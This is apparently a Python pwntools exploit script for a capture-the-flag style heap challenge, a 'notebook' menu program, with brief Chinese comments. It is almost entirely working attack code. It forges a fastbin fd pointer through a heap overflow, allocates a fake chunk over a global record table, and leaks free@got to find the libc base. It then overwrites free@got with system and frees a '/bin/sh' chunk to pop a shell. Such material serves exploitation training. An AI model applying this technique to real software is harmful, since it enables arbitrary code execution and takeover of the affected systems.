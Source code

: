 ```python

def menu(choice):
	sla("your choice?\n",str(choice))

def new(size,content='jb\n'):
	menu(1)
	sla("notebook:\n",str(size))
	sa("content:\n",content)

def edit(index,size,content):
	menu(2)
	sla("notebook:\n",str(index))
	sla("lenth of notebook:\n",str(size))
	io.send(content)

def delete(index):
	menu(3)
	sla("index:\n",str(index))

def look(index):
	menu(4)
	sla("index:\n",str(index))

#gdb.attach(io)
new(0x61)#0
new(0x50)#1
delete(1)#此时fastbin中只有堆1
payload='a'*0x60#填充堆0
payload+=p64(0)+p64(0x61)#堆1的prev_size和size
payload+=p64(0x6020a0-8)+'\n'#伪造堆1的fd，指向record-8，此时record[0]->size存的是0x61，和堆1的size域相同，和堆1处于同一个fastbin
edit(0,0x80,payload)
new(0x50)#1，原来的堆1
new(0x50)#2，fake heap，堆地址是&record[-1]->mesg_addr，userdata地址（即malloc返回的地址）是&record[0]->mesg_addr
new(0x10,'/bin/sh\x00\n')#3
payload=p64(elf.got['free'])
edit(2,0x10,payload+'\n')#相当于改了record[0]->mesg_addr为free的got表地址

#leak libc
look(0)#由于record[0]->mesg_addr=free@got，因此查看会直接得到free的got表内容即free实际地址
ru("0:")
mesg=ru("\n",True)
free_addr=u64(mesg+'\x00\x00')
libcbase=free_addr-libc.sym['free']
print "libcbase:"+hex(libcbase)
libc.address=libcbase

payload=p64(libc.sym['system'])[0:7]
edit(0,0x10,payload+'\n')#改*(record[0]->mesg_addr)为system地址
delete(3)#调用system('/bin/sh')
shell()
```

